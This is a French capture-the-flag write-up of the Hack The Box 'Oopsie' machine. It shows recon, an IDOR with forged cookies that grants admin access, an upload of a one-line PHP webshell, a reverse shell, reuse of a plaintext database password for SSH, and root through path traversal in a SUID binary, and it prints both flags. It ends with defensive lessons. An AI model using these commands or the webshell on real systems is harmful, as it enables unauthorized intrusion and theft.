> Plateforme : **Hack The Box** — Starting Point (Tier 2)

## Informations

- **Catégorie :** Web (IDOR / upload) → Linux (SUID path traversal)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `22/tcp` (OpenSSH 7.6p1), `80/tcp` (Apache httpd 2.4.29)
- **Flag user :** `f2c74ee8db7983851ab2a96a44eb7981`
- **Flag root :** `af13b0bee69f8a877c3faf667f7beacf`

---

## 1. Reconnaissance

```bash
nmap -sC -sV -p- -T4 10.129.95.191
```

```text
22/tcp open  ssh      OpenSSH 7.6p1 Ubuntu
80/tcp open  http     Apache httpd 2.4.29 (Ubuntu)   (titre: Welcome)
```

Énumération web :

```bash
ffuf -u http://10.129.95.191/FUZZ -w /usr/share/wordlists/dirb/common.txt \
  -e .php,.txt,.html,.bak -mc all -fs 275,278
```

```text
index.php   uploads   css   js   images   themes   fonts
```



Le site mentionne un espace de login. En explorant on trouve le panneau : **`/cdn-cgi/login/`**.

---

## 2. De guest à admin — IDOR + manipulation de cookies

### 2.1 Login as Guest

La page de login propose un bouton **« Login as Guest »**. On observe la réponse :

```bash
curl -v http://10.129.95.191/cdn-cgi/login/?guest=true
```

```text
Set-Cookie: user=2233; expires=...; path=/
Set-Cookie: role=guest; expires=...; path=/
Location: /cdn-cgi/login/admin.php
```

Deux choses capitales : la session repose entièrement sur **deux cookies posés côté client** — `user` (un identifiant numérique) et `role` (`guest`) — et on est redirigé vers `admin.php`.



### 2.2 Exploration du panneau (accès partiel)

Connecté en guest, le panneau `admin.php` affiche plusieurs onglets (Accounts, Branding, Clients, **Uploads**…). L'onglet **Uploads** refuse l'accès : il est réservé au **super admin**.



### 2.3 IDOR — retrouver l'Access ID de l'admin

L'onglet **Accounts** charge les comptes via un paramètre d'identifiant dans l'URL, du type :

```text
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1
```

Ce paramètre `id` n'est pas contrôlé → **IDOR** : en le faisant varier (`id=1`, `2`, …) on énumère les comptes et la page reflète, pour chacun, son **Access ID** et son rôle. On cible le compte **admin** pour lire son Access ID :

```text
Access ID : 34322    Name : admin
```



> Le cookie `user=2233` reçu en guest **n'est pas** l'ID de l'admin — c'est pour ça que l'upload est bloqué. Il faut l'Access ID du super admin, que l'IDOR nous livre.

### 2.4 Falsification des cookies → session admin

Le contrôle d'accès à l'upload se fonde uniquement sur les cookies. On les réécrit (Burp, onglet *Repeater*, ou l'inspecteur du navigateur) avec l'Access ID admin trouvé :

```text
Cookie: user=34322; role=admin
```

```bash
# équivalent en curl
curl -s http://10.129.95.191/cdn-cgi/login/admin.php?content=uploads \
  -b "user=34322; role=admin"
```



La session est désormais reconnue **super admin** → le **formulaire d'upload** est accessible.



---

## 3. Upload d'un webshell → RCE

Le formulaire d'upload ne filtre pas correctement le type de fichier. On dépose un webshell PHP :

```php
<?php system($_GET['cmd']); ?>
```

Les fichiers atterrissent dans **`/uploads/`** (répertoire trouvé au ffuf) :

```bash
curl "http://10.129.95.191/uploads/shell.php?cmd=id"
```

On lance un reverse shell vers un listener `nc -lvnp 4444` :

```text
connect to [10.10.15.244] from 10.129.95.191
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



---

## 4. Credentials en clair → pivot vers robert

Le code de l'appli contient la config de la base de données :

```bash
cat /var/www/html/cdn-cgi/login/db.php
```

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Le mot de passe de `robert` est **réutilisé** pour son compte système → connexion SSH :

```bash
ssh robert@10.129.95.191      # M3g4C0rpUs3r!
```

```text
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```



robert appartient au groupe **`bugtracker`** — piste pour la privesc.

---

## 5. Privesc — binaire SUID `bugtracker`

```bash
find / -perm -4000 -type f 2>/dev/null | grep -v snap
ls -l /usr/bin/bugtracker
```

```text
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 2020 /usr/bin/bugtracker
```



Binaire **SUID root**, exécutable par le groupe `bugtracker`. Il demande un *Bug ID* et affiche le rapport correspondant :

```text
Provide Bug ID: s
cat: /root/reports/s: No such file or directory
```

Il fait donc un **`cat /root/reports/<input>`** sans assainir l'entrée. Deux exploitations possibles.



**a) Path traversal (lecture directe du flag) :**

```text
Provide Bug ID: ../root.txt
```

```text
af13b0bee69f8a877c3faf667f7beacf
```



**Flag root :** `af13b0bee69f8a877c3faf667f7beacf`

---

## Récapitulatif de la chaîne

1. **nmap** → 22 + 80 ; `ffuf` → `/uploads`, panneau `/cdn-cgi/login/`.
2. **Login as Guest** → session basée sur cookies `user`/`role` ; **IDOR** + cookies falsifiés → accès admin.
3. **Upload** non filtré → webshell PHP dans `/uploads/` → reverse shell `www-data`.
4. **`db.php`** → mot de passe `robert` réutilisé → SSH → **user.txt**.
5. Groupe `bugtracker` + **SUID `bugtracker`** → **path traversal** (`../root.txt`) 

> **Concept clé :** la box enchaîne des contrôles d'accès défaillants. (1) Une session qui fait confiance à des **cookies côté client** (`user`, `role`) : un IDOR permet d'énumérer les comptes et une simple modification de cookie usurpe l'admin — l'autorisation doit se décider côté serveur, pas d'après une valeur que le client contrôle. (2) Un **upload non restreint** servi dans un dossier exécutable → RCE. (3) Un **secret en clair** réutilisé entre l'appli et un compte système. (4) Un **binaire SUID root** qui passe une entrée utilisateur à `cat` : deux fautes cumulées — pas de validation du chemin (**path traversal**, on lit `/root/root.txt`) et un appel à `cat` **sans chemin absolu**. Défense : autorisation serveur signée/vérifiée, validation stricte des uploads, pas de credentials en dur, et pour tout SUID : chemins absolus, entrées assainies, principe du moindre privilège.

---

***— 3ch0***
